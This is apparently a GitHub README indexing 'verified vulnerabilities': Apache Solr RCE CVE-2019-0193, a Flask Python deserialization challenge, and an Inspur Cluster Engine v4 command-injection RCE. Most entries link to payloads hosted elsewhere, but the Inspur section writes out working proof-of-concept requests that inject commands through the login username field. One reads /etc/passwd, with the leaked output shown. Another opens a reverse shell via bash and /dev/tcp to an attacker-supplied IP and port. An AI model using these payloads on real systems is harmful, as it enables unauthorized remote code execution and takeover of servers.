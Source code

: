 # *Collection of verified vulnerabilities*

## 一、[*Apache Solr Rce cve-2019-0193*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheSolr)

<details>
<summary><em>点击以展开 *Apache Solr Rce cve-2019-0193介绍 </em></summary>

- 有回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%9C%89%E5%9B%9E%E6%98%BEpayload)
- 无回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%97%A0%E5%9B%9E%E6%98%BEpayload)

### # 1x01 恶意xml引用
引用地址`(https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CoVV/ApacheSolr/solr.xml)`

### # 1x02 两者payload对比

- [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E5%8C%BA%E5%88%AB)

### 参考

[漏洞分析 - Apache Solr远程代码执行漏洞(CVE-2019-0193)](https://xz.aliyun.com/t/5965)

</details>

## 二、[*Easy Flask - Python 反序列化*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Flask)

<details>
<summary><em>点击以展开 *Easy Flask - Python 反序列化介绍 </em></summary>

### POC复现

- [*点击以进一步了解POC复现*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Flask#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%A4%8D%E7%8E%B0)

</details>

## 三、[*Inspur Cluster Engine v4 RCE*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Inspur%20Cluster%20Engine%20v4)

<details>
<summary><em>点击以展开 *Inspur Cluster Engine v4 RCE介绍 </em></summary>

- Java web 认证缺陷
- 传入参数可控导致远程代码执行

### POC复现

```
# POC测试(出现 root:x:0:0 则存在漏洞)

op=login&username=peiqi`$(cat /etc/passwd)`
{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user peiqi does not exist\nerror:1\n"}

# 反弹shell
op=login&username=peiqi`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```

</details>
